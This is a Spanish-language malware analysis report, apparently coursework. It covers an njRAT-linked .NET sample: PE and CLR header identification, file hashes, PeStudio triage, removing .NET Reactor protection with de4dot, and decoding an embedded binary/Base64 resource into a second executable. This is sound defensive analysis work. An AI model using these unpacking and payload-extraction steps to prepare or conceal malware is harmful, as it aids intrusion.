# M9T8 — Puntos 1 a 5 corregidos

# 1. Identificar la arquitectura de destino del malware

El primer paso del análisis consiste en identificar el formato, la arquitectura y el entorno de ejecución del fichero principal:

```text
NET_MALWARE_master.exe
```

Para ello se utilizaron las siguientes herramientas:

- Exeinfo PE.
- Detect It Easy.
- PeStudio.
- CFF Explorer.

En esta fase se analiza únicamente el ejecutable principal. Aunque se observan recursos incrustados, todavía no se conoce su función y no debe afirmarse que alguno de ellos sea el payload hasta que sea extraído e identificado.













## 1.1. Identificación del formato

Los primeros bytes del archivo son:

```text
4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF 00 00
```

Los <mark>bytes `4D 5A` corresponden a la firma ASCII `MZ`, característica de los ejecutables de Windows.</mark>

El campo `e_lfanew` de la cabecera DOS contiene el valor:

```text
0x00000080
```

En ese desplazamiento se encuentra la firma:

```text
50 45 00 00
```

equivalente a `PE\0\0`.

Por tanto, <mark>`NET_MALWARE_master.exe` es un archivo **Portable Executable (PE)** válido para Microsoft Windows.</mark>

## 1.2. Arquitectura declarada en la cabecera PE

Las herramientas muestran las siguientes propiedades:

| Propiedad | Valor |
|---|---|
| Formato | `PE32` |
| Machine | `0x014C` |
| Arquitectura declarada | Intel 386 / I386 |
| Subsistema | Windows GUI |
| Image Base | `0x00400000` |
| Tamaño de la imagen | `0x00040000` |
| Número de secciones | 4 |
| Punto de entrada | `0x00439F4E` |
| Sección del punto de entrada | `.text` |

El valor `Machine = 0x014C` corresponde a:

```text
IMAGE_FILE_MACHINE_I386
```

Desde el punto de vista de la envoltura PE, el archivo se presenta como un ejecutable PE32 para arquitectura x86.

## 1.3. Subsistema gráfico

El Optional Header contiene:

```text
Subsystem = 0x0002
```

Este valor corresponde a:

```text
IMAGE_SUBSYSTEM_WINDOWS_GUI
```

Por tanto, el ejecutable está diseñado como <mark>una aplicación gráfica de Windows y no como una aplicación de consola.</mark>

Los metadatos muestran:

```text
OriginalFilename: WpfBrowserApplication1.exe
FileDescription:  WpfBrowserApplication1
```

Estos valores son coherentes con <mark>una aplicación basada en **Windows Presentation Foundation (WPF)**.</mark>

## 1.4. Naturaleza administrada del ejecutable

La muestra no es un ejecutable nativo convencional, sino <mark>un ensamblado administrado de Microsoft .NET.</mark>

Los principales indicadores son:

```text
Microsoft .NET
CLR v4.0.30319
Firma de metadatos BSJB
Código IL-Only
```

La cabecera CLR presenta:

| Propiedad | Resultado |
|---|---|
| Firma CLR | `BSJB` |
| Versión CLR | `v4.0.30319` |
| IL-Only | Sí |
| Native Entry Point | No |
| Strong Name | No |
| Token del punto de entrada | `0x06000009` |
| Nombre del módulo | `WpfBrowserApplication1.exe` |

La <mark>propiedad `IL-Only` indica que la lógica principal está implementada en CIL/MSIL y será compilada mediante JIT por el Common Language Runtime.</mark>

## 1.5. Diferencia entre PE32 y arquitectura efectiva del proceso

Aunque la cabecera PE declara:

```text
PE32
Machine = I386
```

la cabecera CLR contiene:

```text
32BITREQ  = false
32BITPREF = false
```

Esto significa que <mark>el ensamblado administrado no exige expresamente ejecutarse como proceso de 32 bits. La combinación es compatible con una compilación `AnyCPU`.</mark>

En condiciones normales:

```text
Windows de 32 bits → proceso de 32 bits
Windows de 64 bits → proceso administrado potencialmente de 64 bits
```

No obstante, <mark>la muestra está protegida mediante .NET Reactor.</mark> El protector puede incorporar dependencias o componentes que condicionen la arquitectura efectiva.

Por tanto, la clasificación más precisa es:

> [!Caution]
> **`NET_MALWARE_master.exe` es un ejecutable PE32 administrado para Windows, con cabecera I386, pero sin la marca CLR que obliga a usar 32 bits. La arquitectura efectiva debe confirmarse mediante análisis dinámico.**

## 1.6. Compilador y lenguaje probable

Detect It Easy identifica:

```text
Compilador: VB.NET
Lenguaje: VB.NET
Librería: .NET Framework
```

PeStudio ofrece una identificación más general:

```text
Microsoft Visual C# / Basic .NET
```

También aparecen referencias a:

```text
Microsoft.VisualBasic
Microsoft.VisualBasic.ApplicationServices
Microsoft.VisualBasic.CompilerServices
Microsoft.VisualBasic.Devices
```

Estas evidencias indican que el <mark>proyecto fue desarrollado probablemente en **Visual Basic .NET**, aunque el descompilador pueda representar parte del código como C#.</mark>

## 1.7. Protector detectado

Detect It Easy identifica el uso de:

```text
.NET Reactor 4.8–4.9
```

También señala:

```text
Encrypted or packed data
Assembly invoke
RSACryptoServiceProvider
High entropy
Strings encryption
Obfuscation
Fake .cctor name
Math mutations
```

Por tanto, <mark>el ensamblado se encuentra protegido u ofuscado.</mark> Esta protección puede afectar a los nombres, las cadenas, el flujo de control, los recursos y la carga de ensamblados.

La versión exacta de .NET Reactor no puede confirmarse únicamente mediante firmas, ya que Exeinfo PE propone un intervalo diferente.

## 1.8. Punto de entrada

El punto de entrada PE se encuentra en:

```text
RVA: 0x00039F4E
VA:  0x00439F4E
Sección: .text
```

Los primeros bytes son:

```text
FF 25 00 20 40 00
```

Este código actúa como un stub que transfiere el control al entorno de ejecución .NET.

El punto de entrada administrado se identifica mediante el token:

```text
0x06000009
```

La lógica real debe analizarse desde el método asociado a dicho token mediante `dnSpyEx` o `ILSpy`.

## 1.9. Secciones del ejecutable

El archivo contiene cuatro secciones:

| Sección | Tamaño raw | Entropía | Permisos |
|---|---:|---:|---|
| `.text` | 229.376 bytes | 7,72264 | Lectura y ejecución |
| `.sdata` | 512 bytes | 2,18920 | Lectura y escritura |
| `.rsrc` | 2.560 bytes | 2,95314 | Lectura |
| `.reloc` | 512 bytes | 0,10473 | Lectura y descartable |

<mark>La sección `.text` ocupa aproximadamente el 98,03 % del archivo y presenta una entropía muy elevada.</mark>

En un ensamblado .NET, `.text` puede contener:

- Código IL.
- Metadatos CLR.
- Streams de metadatos.
- Recursos administrados.
- Datos transformados por el protector.

<mark>La entropía elevada es compatible con cifrado, compresión u ofuscación, pero no demuestra por sí sola la existencia de un packer nativo.</mark>

## 1.10. Relocalizaciones

La sección `.reloc` contiene un bloque con:

```text
VirtualAddress: 0x00039000
SizeOfBlock:    0x0000000C
```

La presencia de relocalizaciones indica que se conservan entradas para ajustar determinadas direcciones.

Sin embargo, el Optional Header muestra que `DYNAMIC_BASE` no está activado. Por tanto, <mark>el ejecutable no declara compatibilidad con ASLR aunque contenga una tabla de relocalizaciones.</mark>

## 1.11. Recursos administrados observados

CFF Explorer muestra recursos bajo el nodo:

```text
.NET Resources
```

Entre ellos aparecen nombres ofuscados:

```text
rViCRV69GVjj6sEmJw.w7eqYS2uAFcvOCPo8J
uJpZeEWKM2XqZ9rDJ5.kOvdXTCaKHdjPOipFB
```

**<mark>En esta fase solo puede concluirse que:</mark>**
- El archivo contiene recursos administrados.
- Sus nombres están ofuscados.
- Su contenido no es directamente legible.
- Presentan una entropía elevada.
- Deben extraerse y analizarse por separado.

No podemos afirmar todavía que sean payloads ejecutables.

## 1.12. Sistema operativo de destino

**<mark>La muestra está diseñada para Microsoft Windows debido a:</mark>**
- Su formato PE.
- El subsistema Windows GUI.
- El uso de WPF.
- El CLR `v4.0.30319`.
- Las estructuras específicas de Windows.
- La protección mediante .NET Reactor.

No es una aplicación .NET multiplataforma moderna.

## 1.13. Resumen de arquitectura

```text
Archivo:                    NET_MALWARE_master.exe
Formato:                    PE32
Machine:                    Intel 386 / I386
Subsistema:                 Windows GUI
Plataforma:                 Microsoft Windows
Tecnología:                 Microsoft .NET
CLR:                        v4.0.30319
Código:                     IL-Only
Lenguaje probable:          VB.NET
Interfaz:                   WPF
Protector:                  .NET Reactor
Image Base:                 0x00400000
Punto de entrada PE:        0x00439F4E
Token de entrada .NET:      0x06000009
Número de secciones:        4
32-bit-required:            false
32-bit-preferred:           false
```

## 1.14. Conclusión

`NET_MALWARE_master.exe` es un ejecutable PE32 administrado para Windows, basado en WPF y compilado para el CLR `v4.0.30319`.

La cabecera PE utiliza `IMAGE_FILE_MACHINE_I386`, pero el ensamblado no está marcado como obligatorio o preferente de 32 bits. Por ello, su configuración es compatible con `AnyCPU`, aunque debe confirmarse dinámicamente debido a la protección de .NET Reactor.

También se han identificado recursos administrados de alta entropía. Su función todavía no puede determinarse en esta fase.

---

# 2. Tomar huellas dactilares del malware

La toma de huellas permite identificar de forma inequívoca la muestra y comparar sus estructuras con otros archivos relacionados. Se han utilizado huellas globales y parciales obtenidas mediante FootprintNG.

## 2.1. Huella criptográfica del archivo

El SHA-256 del archivo completo es:

```text
6DDA005FA9D3F826124458AF97D2E918A475D83447B2E057A3B0057441C3D6A7
```

| Elemento | Algoritmo | Huella |
|---|---|---|
| Archivo completo | SHA-256 | `6DDA005FA9D3F826124458AF97D2E918A475D83447B2E057A3B0057441C3D6A7` |

Esta huella debe utilizarse como identificador principal del contenedor.

## 2.2. Huellas de la cabecera DOS

| Estructura | Algoritmo | Huella |
|---|---|---|
| DOS Stub | SHA-256 | `7764E7022DCAC1B5779D1F96FC05AF5C1FEE394AAFF8A3A7E9A881E1A1B163A3` |
| DOS Header | SHA-256 | `BFDF5E72651B4EC588BD5FC6A9F17E9E0972248146BBACC10478F48D72F29B81` |

Estas huellas permiten comparar la estructura inicial del `PE`.

## 2.3. Huellas de las secciones PE

| Sección | Algoritmo | Huella |
|---|---|---|
| `.text` | SHA-256 | `617D9EB2D242D2375C5FBA9755A51770F19E68F44C1ED863E41863759B9655DF` |
| `.sdata` | SHA-256 | `E4D02FDF63A656CDDE34531DDD2ED81C5B1BCD85D64BD56BEFD30B35036B8780` |
| `.rsrc` | SHA-256 | `EF609AF44133247770CBC7D19B841EB8EFE2C86652EABBEFC60262DCBE0DACCA` |
| `.reloc` | SHA-256 | `5D2B0481BCB8E65006E85B387C5F92AB16C47674752C7F14E74D70571F9F7194` |

### Sección `.text`

La huella de `.text` es especialmente relevante porque esta sección contiene el código `IL`, los metadatos `CLR` y los recursos administrados de alta entropía. Una modificación de la lógica administrada o de dichos recursos alteraría esta huella.

### Sección `.sdata`

La sección `.sdata` contiene datos estáticos y estructuras generadas durante la compilación.

### Sección `.rsrc`

La sección `.rsrc` contiene los recursos `PE` tradicionales:

- Información de versión.
- Iconos.
- Grupo de iconos.

Debe distinguirse de los recursos administrados de `.NET`, que en esta muestra se encuentran dentro de `.text`.

### Sección `.reloc`

La huella de `.reloc` permite comparar la estructura de las relocalizaciones, aunque tiene menor relación con la funcionalidad maliciosa.

## 2.4. Huella de la información de versión

FootprintNG obtuvo el siguiente SHA-256 para el bloque de información de versión:

```text
B9015B052C95A835AE9D169CA50DFF8C98F790DD861F06D6ABBE5F4D783944CB
```

| Elemento | Algoritmo | Huella |
|---|---|---|
| Información de versión | SHA-256 | `B9015B052C95A835AE9D169CA50DFF8C98F790DD861F06D6ABBE5F4D783944CB` |

Los metadatos observados son:

| Campo | Valor |
|---|---|
| FileDescription | `WpfBrowserApplication1` |
| FileVersion | `1.0.0.0` |
| InternalName | `WpfBrowserApplication1.exe` |
| OriginalFilename | `WpfBrowserApplication1.exe` |
| ProductName | `WpfBrowserApplication1` |
| ProductVersion | `1.0.0.0` |
| AssemblyVersion | `1.0.0.0` |

<mark>La versión `1.0.0.0` corresponde al contenedor principal. No debe confundirse con la versión de ensamblado `0.0.0.0` del archivo extraído ni con la versión interna `0.6.4` del RAT.</mark>

## 2.5. Import Hash

El imphash calculado es:

```text
F34D5F2D4577ED6D9CEEC516C1F5A744
```

| Elemento | Algoritmo | Huella |
|---|---|---|
| Import Hash | MD5 | `F34D5F2D4577ED6D9CEEC516C1F5A744` |

El imphash se calcula sobre la tabla de importaciones `PE` convencional. En un ensamblado `.NET` su capacidad discriminante es limitada, porque la tabla `PE` contiene principalmente la inicialización del `CLR` y muchas `APIs` nativas se declaran mediante `P/Invoke` dentro de los metadatos `.NET`.

## 2.6. Resumen de huellas

```text
Archivo completo:
SHA-256: 6DDA005FA9D3F826124458AF97D2E918A475D83447B2E057A3B0057441C3D6A7

DOS Stub:
SHA-256: 7764E7022DCAC1B5779D1F96FC05AF5C1FEE394AAFF8A3A7E9A881E1A1B163A3

DOS Header:
SHA-256: BFDF5E72651B4EC588BD5FC6A9F17E9E0972248146BBACC10478F48D72F29B81

.text:
SHA-256: 617D9EB2D242D2375C5FBA9755A51770F19E68F44C1ED863E41863759B9655DF

.sdata:
SHA-256: E4D02FDF63A656CDDE34531DDD2ED81C5B1BCD85D64BD56BEFD30B35036B8780

.rsrc:
SHA-256: EF609AF44133247770CBC7D19B841EB8EFE2C86652EABBEFC60262DCBE0DACCA

.reloc:
SHA-256: 5D2B0481BCB8E65006E85B387C5F92AB16C47674752C7F14E74D70571F9F7194

Información de versión:
SHA-256: B9015B052C95A835AE9D169CA50DFF8C98F790DD861F06D6ABBE5F4D783944CB

Imphash:
MD5: F34D5F2D4577ED6D9CEEC516C1F5A744
```

## 2.7. Consultas externas

El SHA-256 del contenedor se consultó en VirusTotal y Joe Sandbox como evidencia complementaria.

### VirusTotal



En la consulta realizada, 52 de 70 motores clasificaron el archivo como malicioso. Entre las detecciones aparecieron referencias a <mark>njRAT, Bladabindi y familias relacionadas.</mark>

Los nombres asignados por los motores son orientativos y no constituyen por sí solos una atribución definitiva.

### Joe Sandbox



Joe Sandbox clasificó la muestra como:

```text
MALICIOUS
```

con una puntuación de:

```text
100/100
```

y la relacionó con <mark>njRAT.</mark>


---

# 3. Triage estático inicial con PeStudio

Se realizó un análisis estático inicial con PeStudio para identificar el formato, las características `PE`, las protecciones, los recursos y los indicadores sospechosos sin ejecutar la muestra.

## 3.1. Información general del archivo

| Propiedad | Resultado |
|---|---|
| Nombre analizado | `NET_MALWARE_master.exe` |
| Nombre original | `WpfBrowserApplication1.exe` |
| Descripción | `WpfBrowserApplication1` |
| Tamaño | 233.984 bytes |
| SHA-256 | `6DDA005FA9D3F826124458AF97D2E918A475D83447B2E057A3B0057441C3D6A7` |
| Tipo | Ejecutable PE |
| Subsistema | GUI |
| Formato | PE32 |
| Máquina | Intel 386 |
| Tecnología | Microsoft .NET |
| Lenguaje probable | C# o VB.NET |
| Versión | `1.0.0.0` |
| Entropía global | 7,664 |
| Firma digital | No presente |
| Overlay | No presente |
| Exportaciones | No presentes |

## 3.2. Identificación del ejecutable .NET

PeStudio detectó:

```text
Microsoft Linker 6.0
Microsoft Visual C# / Basic .NET
Microsoft .NET
```

La cabecera `CLR` contiene:

| Propiedad | Resultado |
|---|---|
| Firma de metadatos | `BSJB` |
| Versión CLR | `v4.0.30319` |
| Nombre del módulo | `WpfBrowserApplication1.exe` |
| Token de entrada | `0x06000009` |
| IL-Only | Sí |
| Biblioteca .NET | No |
| Strong Name | No |
| Entrada nativa | No |
| 32-bit required | No |
| 32-bit preferred | No |

El resultado es compatible con un ensamblado `AnyCPU`, aunque la arquitectura efectiva debe verificarse dinámicamente.

## 3.3. Punto de entrada

```text
RVA:      0x00039F4E
Sección:  .text
Bytes:    FF 25 00 20 40 00
```

El patrón corresponde a un stub de inicialización del `CLR`.

El token del punto de entrada administrado es:

```text
0x06000009
```

## 3.4. Fecha de compilación

PeStudio muestra:

```text
1 de noviembre de 2020, 03:18:22 UTC
0x5F9E28FE
```

La marca temporal debe considerarse un indicador, no una prueba definitiva, porque puede haber sido modificada por el autor o por el protector.

## 3.5. Cabecera DOS

| Propiedad | Resultado |
|---|---|
| Tamaño | 64 bytes |
| Ubicación | `0x00000000–0x00000040` |
| Entropía | 3,669 |
| `e_lfanew` | `0x00000080` |
| SHA-256 | `BFDF5E72651B4EC588BD5FC6A9F17E9E0972248146BBACC10478F48D72F29B81` |

El DOS Stub contiene:

```text
This program cannot be run in DOS mode.
```

No se detectó Rich Header. Su ausencia no constituye por sí sola un indicador malicioso.

## 3.6. File Header

| Campo | Valor |
|---|---|
| Firma | `PE\0\0` |
| Machine | `0x014C — Intel 386` |
| Número de secciones | 4 |
| Características | `0x010E` |
| Ejecutable | Sí |
| DLL | No |
| Símbolos locales eliminados | Sí |
| Líneas de depuración eliminadas | Sí |
| Large Address Aware | No |

## 3.7. Optional Header y protecciones de seguridad

| Propiedad | Resultado |
|---|---|
| Magic | `0x010B — PE32` |
| Image Base | `0x00400000` |
| Base of Code | `0x00002000` |
| Base of Data | `0x0003A000` |
| Size of Image | 262.144 bytes |
| Size of Headers | 1.024 bytes |
| File Alignment | 512 bytes |
| Section Alignment | 8.192 bytes |
| Subsistema | GUI |
| Checksum | No definido |

Mitigaciones:

| Mitigación | Estado |
|---|---|
| ASLR | Desactivado |
| DEP / NX | Desactivado |
| CFG | Desactivado |
| High Entropy VA | Desactivado |
| CET Compatible | Desactivado |
| AppContainer | Desactivado |
| Image Isolation | Desactivado |
| SEH | Activado |

Estas ausencias reducen las protecciones del binario, pero no demuestran por sí solas una conducta maliciosa.

## 3.8. Secciones PE

| Sección | Tamaño raw | Entropía | Permisos |
|---|---:|---:|---|
| `.text` | 229.376 bytes | 7,723 | Lectura y ejecución |
| `.sdata` | 512 bytes | 2,186 | Lectura y escritura |
| `.rsrc` | 2.560 bytes | 2,953 | Lectura |
| `.reloc` | 512 bytes | 0,102 | Lectura y descartable |

<mark>La elevada entropía de `.text` se relaciona con la protección y con la presencia de recursos administrados.</mark>

<mark>La sección `.rsrc` contiene los recursos `PE` tradicionales, mientras que los recursos administrados `.NET` se encuentran dentro de `.text`.</mark>

## 3.9. Recursos incrustados

PeStudio identificó dos recursos administrados:

| Recurso | Tamaño | Entropía |
|---|---:|---:|
| `rViCRV69GVjj6sEmJw.w7eqYS2uAFcvOCPo8J` | 173.584 bytes | 7,999 |
| `uJpZeEWKM2XqZ9rDJ5.kOvdXTCaKHdjPOipFB` | 560 bytes | 7,644 |

El tamaño conjunto es de 174.152 bytes, aproximadamente el 74,43 % del archivo.

<mark>La elevada entropía es compatible con cifrado, compresión u ofuscación. En esta fase no puede afirmarse que el contenido sea ejecutable.</mark>

## 3.10. Recursos PE tradicionales

La sección `.rsrc` contiene:

- Información de versión.
- Dos iconos.
- Un grupo de iconos.

Los metadatos `WpfBrowserApplication1` parecen genéricos y no permiten identificar un editor legítimo.

## 3.11. Importaciones PE, declaraciones P/Invoke y referencias administradas

### Importación PE convencional

La biblioteca presente en la tabla de importaciones PE es:

```text
mscoree.dll
```

Su función es inicializar el `CLR`.

### Declaraciones P/Invoke

Los metadatos `.NET` contienen:

```text
VirtualProtect
WriteProcessMemory
ReadProcessMemory
OpenProcess
RtlZeroMemory
FindResource
CloseHandle
LoadLibrary
GetProcAddress
```

Estas APIs permiten interactuar con procesos, memoria, bibliotecas y recursos nativos.

Su presencia no demuestra por sí sola una técnica de inyección, ya que pueden formar parte de .NET Reactor.

### Referencias administradas

PeStudio también muestra:

| Elemento | Tipo | Interpretación |
|---|---|---|
| `CreateEncryptor` | `MemberRef` | Método criptográfico administrado |
| `GetEnvironmentVariable` | `MemberRef` | Método de `System.Environment` |
| `MemoryStream` | `TypeRef` | Tipo `System.IO.MemoryStream` |

No son importaciones PE ni declaraciones P/Invoke.

## 3.12. Import Hash

```text
F34D5F2D4577ED6D9CEEC516C1F5A744
```

Su utilidad es limitada en ensamblados .NET debido al reducido número de importaciones PE convencionales.

## 3.13. Namespaces y estructura .NET

Se identificaron namespaces legítimos como:

```text
System.Reflection
System.Runtime.InteropServices
System.Security.Cryptography
System.IO
System.Windows
Microsoft.VisualBasic
```

También aparecen espacios de nombres ofuscados:

```text
eS2UbhYHih9KjlHWNs
esmiSECghiXXOHjvrI
e1RlCAZENhFg7ngPa8
e4bMEd1QuCf9dZpbaC
```

La combinación de reflexión, criptografía, entrada/salida y `P/Invoke` es compatible con rutinas de protección y carga dinámica.

## 3.14. Cadenas y referencias relevantes

PeStudio identificó APIs nativas como:

```text
VirtualProtect
WriteProcessMemory
ReadProcessMemory
OpenProcess
```

y referencias administradas:

```text
CreateEncryptor
GetEnvironmentVariable
MemoryStream
```

La combinación es compatible con descifrado, carga de recursos y manipulación de datos en memoria. Su finalidad exacta debe confirmarse mediante referencias cruzadas.

## 3.15. Firma digital y manifiesto

La muestra no presenta:

- Firma Authenticode.
- Certificado digital.
- Editor verificable.
- Strong Name.
- Manifiesto visible según PeStudio.

La ausencia de firma no demuestra por sí sola que el archivo sea malicioso, pero impide verificar su procedencia.

## 3.16. Indicadores relevantes del triage

```text
SHA-256:
6DDA005FA9D3F826124458AF97D2E918A475D83447B2E057A3B0057441C3D6A7

Imphash:
F34D5F2D4577ED6D9CEEC516C1F5A744

Nombre original:
WpfBrowserApplication1.exe

Versión CLR:
v4.0.30319

Entropía global:
7,664

Recurso principal:
rViCRV69GVjj6sEmJw.w7eqYS2uAFcvOCPo8J

Tamaño:
173.584 bytes

Entropía:
7,999
```

## 3.17. Valoración del triage

<mark>**Los principales indicadores sospechosos son:</mark>**
1. Entropía global elevada.
2. Sección `.text` con entropía de 7,723.
3. Recurso administrado con entropía de 7,999.
4. Nombres ofuscados.
5. Declaraciones P/Invoke de manipulación de memoria.
6. Referencias criptográficas y uso de flujos en memoria.
7. Ausencia de firma digital.
8. Metadatos genéricos.
9. Protecciones PE modernas desactivadas.
10. Gran proporción del archivo ocupada por recursos administrados.

La hipótesis inicial es que el archivo actúa como un contenedor o cargador .NET protegido.

## 3.18. Conclusión

PeStudio confirma que la muestra es un ejecutable `.NET` `WPF` protegido, con recursos administrados de alta entropía y referencias compatibles con criptografía, carga dinámica y manipulación de memoria.

Estos resultados justifican continuar con la desofuscación, la extracción de recursos y la descompilación del contenido recuperado.

---

# 4. Análisis de protección, ofuscación y desofuscación

La muestra no presenta inicialmente la estructura típica de un ejecutable nativo comprimido con `UPX`. Las herramientas identifican una protección `.NET Reactor`.

Por ello, el proceso debe describirse principalmente como **desofuscación o desprotección de un ensamblado .NET**.

## 4.1. Indicadores iniciales de protección

Detect It Easy identifica:

```text
.NET Reactor 4.8–4.9
```

También señala:

```text
Encrypted or packed data
Assembly invoke
RSACryptoServiceProvider
High entropy
Strings encryption
Obfuscation
Fake .cctor name
Math mutations
```

Estas características son <mark>compatibles con cifrado de cadenas, renombrado, protección de métodos, alteración del flujo de control y protección de recursos.</mark>

## 4.2. Análisis de entropía

```text
Entropía global: 7,664
Entropía de .text: 7,72264
Tamaño de .text: 229.376 bytes
Proporción aproximada: 98,03 %
```

El valor de `.text` es compatible con una cantidad importante de datos cifrados, comprimidos u ofuscados.

En un ensamblado .NET, la entropía elevada no demuestra por sí sola la existencia de un packer nativo.

## 4.3. Recursos administrados de alta entropía

Los dos recursos principales presentan:

```text
173.584 bytes — entropía 7,999
560 bytes     — entropía 7,644
```

Estos valores son compatibles con contenido transformado por el protector.

En esta fase sólo se concluye que requieren extracción y análisis independiente.

## 4.4. Nombres y metadatos ofuscados

El ensamblado contiene identificadores como:

```text
eS2UbhYHih9KjlHWNs
esmiSECghiXXOHjvrI
e1RlCAZENhFg7ngPa8
e4bMEd1QuCf9dZpbaC
```

Estos nombres son compatibles con un renombrado automático.

La ofuscación dificulta la identificación de clases, métodos, referencias y recursos.

## 4.5. APIs nativas y referencias administradas relacionadas con la protección

PeStudio identificó declaraciones `P/Invoke`:

```text
VirtualProtect
WriteProcessMemory
ReadProcessMemory
OpenProcess
RtlZeroMemory
FindResource
CloseHandle
LoadLibrary
GetProcAddress
```

También aparecen referencias administradas:

```text
CreateEncryptor
GetEnvironmentVariable
MemoryStream
```

<mark>La combinación es compatible con descifrado, carga dinámica, recuperación de recursos y reconstrucción de código en memoria.</mark>

No obstante, no puede afirmarse que el malware realice inyección de procesos, ya que parte de estas funciones puede pertenecer al protector.

## 4.6. Diferencia entre desempaquetado y desofuscación

El término más preciso es:

```text
Desprotección o desofuscación del ensamblado
```

El objetivo es recuperar:
- Metadatos válidos.
- Cuerpos de métodos.
- Recursos accesibles.
- Flujo de control comprensible.
- Cadenas y referencias analizables.

## 4.7. Primer intento con de4dot

Se ejecutó:

```powershell
de4dot.exe C:\Users\usuario\Desktop\NET_MALWARE_master.exe
```



La salida fue:

```text
Detected .NET Reactor
Cleaning C:\Users\usuario\Desktop\NET_MALWARE_master.exe
WARNING: File contains XAML which isn't supported. Use --dont-rename.
Renaming all obfuscated symbols
Saving C:\Users\usuario\Desktop\NET_MALWARE_master-cleaned.exe
```

de4dot detectó correctamente .NET Reactor y generó una primera copia limpiada.

## 4.8. Problema relacionado con XAML

La muestra es una aplicación WPF y contiene referencias XAML/BAML.

El renombrado de clases o miembros puede romper:

- `InitializeComponent`.
- Manejadores de eventos.
- Referencias a controles.
- Recursos `.g.resources`.
- Archivos BAML.

Por ello, de4dot recomendó usar:

```text
--dont-rename
```

## 4.9. Segundo intento conservando los nombres

Se ejecutó:

```powershell
de4dot.exe --dont-rename C:\Users\usuario\Desktop\NET_MALWARE_master.exe -o C:\Users\usuario\Desktop\NET_MALWARE_master-cleaned-xaml.exe
```



La salida fue:

```text
Detected .NET Reactor
Cleaning C:\Users\usuario\Desktop\NET_MALWARE_master.exe
Saving C:\Users\usuario\Desktop\NET_MALWARE_master-cleaned-xaml.exe
```

La opción `--dont-rename` preservó los nombres y evitó romper las referencias XAML.

## 4.10. Resultado del proceso de limpieza

El archivo:

```text
NET_MALWARE_master-cleaned-xaml.exe
```

pudo abrirse correctamente con dnSpyEx.




La herramienta mostró:
- El ensamblado `WpfBrowserApplication1`.
- El árbol de namespaces.
- Las clases WPF.
- Los recursos administrados.
- El punto de entrada.
- Código C# descompilado.

**El punto de entrada identificado fue:**
```text
WpfBrowserApplication1._01.main
```

La estructura ha quedado lo suficientemente válida para continuar el análisis, aunque los nombres permanecen ofuscados.


## 4.11. Resultado del análisis de protección

| Elemento | Resultado |
|---|---|
| Protector detectado | .NET Reactor |
| Versión exacta | No confirmada |
| Tipo de protección | Ofuscación y posible cifrado |
| Entropía global | 7,664 |
| Entropía de `.text` | 7,72264 |
| Recurso principal | 173.584 bytes |
| Entropía del recurso | 7,999 |
| Nombres ofuscados | Sí |
| Cadenas protegidas | Probable |
| Herramienta | de4dot |
| Primer resultado | Advertencia XAML |
| Segundo resultado | Limpieza con `--dont-rename` |
| Archivo analizado | `NET_MALWARE_master-cleaned-xaml.exe` |

## 4.12. Conclusión

<mark>`NET_MALWARE_master.exe` está protegido mediante .NET Reactor y presenta ofuscación, alta entropía y recursos administrados transformados.</mark>

`de4dot` permitió obtener una versión parcialmente desprotegida:

```text
NET_MALWARE_master-cleaned-xaml.exe
```

La opción `--dont-rename` fue necesaria para preservar las referencias WPF.

El resultado facilita el análisis estático, pero no garantiza que todas las capas de protección hayan sido eliminadas.

---

# 5. Análisis estático del código descompilado y de los recursos

Una vez obtenida la versión parcialmente desofuscada, se analizó:

```text
NET_MALWARE_master-cleaned-xaml.exe
```

Se utilizaron principalmente:
- dnSpyEx.
- ILSpy.
- CFF Explorer.
- CyberChef local.
- Herramientas de línea de comandos de .NET.

El objetivo ha sido localizar el punto de entrada, identificar los recursos y determinar si contenían código ejecutable adicional.

## 5.1. Apertura del ensamblado desofuscado

El archivo limpiado pudo abrirse correctamente en dnSpyEx.

La herramienta reconoció:

```text
WpfBrowserApplication1
```


**En el árbol se observaron:**
- Referencias .NET.
- Recursos administrados.
- Clases WPF.
- Namespaces ofuscados.
- Archivos `.resources`.
- El punto de entrada administrado.

La apertura correcta indica que de4dot recuperó una estructura de metadatos válida para la descompilación.

Los nombres continuaron ofuscados debido al uso de:

```text
--dont-rename
```

## 5.2. Estructura del ensamblado principal

El árbol del ensamblado mostró una aplicación WPF con:

```text
WpfBrowserApplication1
├── PE
├── Type References
├── References
├── Resources
├── WpfBrowserApplication1
└── WpfBrowserApplication1.My
```

Entre los recursos aparecieron contenedores `.resources` y `.g.resources`.

La estructura confirma que el archivo principal actúa como una aplicación `WPF protegida` y contiene recursos administrados que requieren inspección.

## 5.3. Localización del punto de entrada



dnSpyEx identificó el punto de entrada como:

```text
WpfBrowserApplication1._01.main
```

Este método es el inicio del flujo administrado.

**Debido a la protección, parte de la lógica puede encontrarse en:**
- Constructores estáticos `.cctor`.
- Métodos invocados desde `main`.
- Rutinas de descifrado.
- Métodos de carga de recursos.
- Llamadas a `Assembly.Load`.

Por tanto, el punto de entrada debe utilizarse como inicio de la reconstrucción del flujo, pero no como única fuente de comportamiento.

## 5.4. Análisis de los recursos administrados

Se revisaron los recursos visibles en dnSpyEx e ILSpy:



Entre ellos aparecieron:

```text
WpfBrowserApplication1.g.resources
WpfBrowserApplication1.Resources.resources
```

<mark>Dentro de `WpfBrowserApplication1.Resources.resources` se localizó una entrada denominada:<mark>



```text
A
```

Su contenido no comenzaba directamente con una cabecera `PE`. Estaba representado como una secuencia textual de grupos binarios de ocho bits separados por espacios.

Por tanto, <mark>fue necesario aplicar transformaciones para recuperar los bytes originales.<mark>

## 5.5. Extracción e identificación del recurso sospechoso






La entrada `A` se exportó sin ejecutarla y se analizó en CyberChef local dentro de la máquina virtual.

La transformación se realizó en dos fases.

### Primera fase: `From Binary`





Configuración:

```text
Operation:   From Binary
Word length: 8 bits
Delimiter:   espacio
```

La salida obtenida era una cadena compatible con Base64.

### Segunda fase: `From Base64`



Al aplicar `From Base64`, los primeros bytes resultantes fueron:

```text
4D 5A
```

<mark>correspondientes a la firma `MZ`.</mark>

<mark>También se observaron nombres de secciones PE:</mark>

```text
.text
.sdata
.rsrc
.reloc
```

<mark>El resultado se guardó como:</mark>

```text
resource-A.exe
```

Su SHA-256 es:

```text
02DFB4A65D7D9A44496C9C905C0C62CD64937BA2BBF0B985DEDA805D313A9F5B
```

ILSpy reconoció el archivo como un segundo ensamblado .NET válido.




## 5.6. Características generales de `resource-A.exe`

| Propiedad | Resultado |
|---|---|
| Formato | PE32 |
| Sistema operativo | Microsoft Windows |
| Arquitectura | x86, 32 bits |
| Framework | .NET Framework 2.0 |
| Tipo de salida | `WinExe` |
| Interfaz | Windows Forms |
| Lenguaje probable | Visual Basic .NET |
| Namespace principal | `ClassLibrary1` |
